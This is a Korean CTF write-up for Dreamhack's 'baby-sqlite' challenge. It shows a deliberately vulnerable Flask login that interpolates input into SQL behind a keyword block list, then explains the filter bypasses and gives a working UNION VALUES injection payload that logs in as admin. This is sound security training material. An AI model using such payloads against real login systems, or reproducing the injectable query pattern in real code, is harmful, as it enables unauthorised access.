 ```yaml
---
layout: post
title: "[Dreamhack] baby-sqlite WriteUp"
date: 2025-01-12
author: GiuNash
tags: [Dreamhack, Web]
comments: true
toc: true
pinned: true
---
```


## Code
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'


    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```

## 1. 문제 접근법

`level` 파라미터는 숫자형 데이터로 처리되어 쿼리에서 따옴표로 감싸지지 않았다. 

이를 이용해 SQL Injection을 수행할 수 있다고 판단했다.  

또한, 다음과 같은 제약 조건이 존재했다:

- `select`와 `admin` 같은 문자열이 필터링됨.
  
- 공백은 필터링되어 사용이 불가능함.

이를 해결하기 위해 다음과 같은 우회 기법을 사용했다:

- 공백은 `/ ** /`로 치환.

- `admin`은 `char()`와 `||` 연산자를 이용해 문자열 생성.

- `select`는 `UNION VALUES`를 사용해 우회.

이러한 분석을 바탕으로 SQL Injection 공격을 설계했다.

---

## 2. 문제풀이

**SQL Injection 가능성 확인**

   소스 코드를 분석한 결과, 로그인 로직에서 실행되는 SQL 쿼리는 다음과 같았다:
   
   ```sql
   SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
   ```
   
여기서 level 필드는 숫자형으로 처리되어 따옴표로 감싸지지 않으므로 SQL Injection 공격에 적합했다.

### 필터링 분석 및 우회 전략

공백 우회: 공백은 / ** /로 대체.

select 우회: UNION VALUES 구문 사용.

admin 우회: char()으로 문자열 생성

### Payload

```sql
uid=dream&upw=cometrue&level=123/**/union/**/values(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))
```

### Burp Suite를 이용한 공격 수행

Burp Suite를 이용해 HTTP 요청의 level 파라미터에 위 페이로드를 삽입.

플래그를 성공적으로 획득했다.
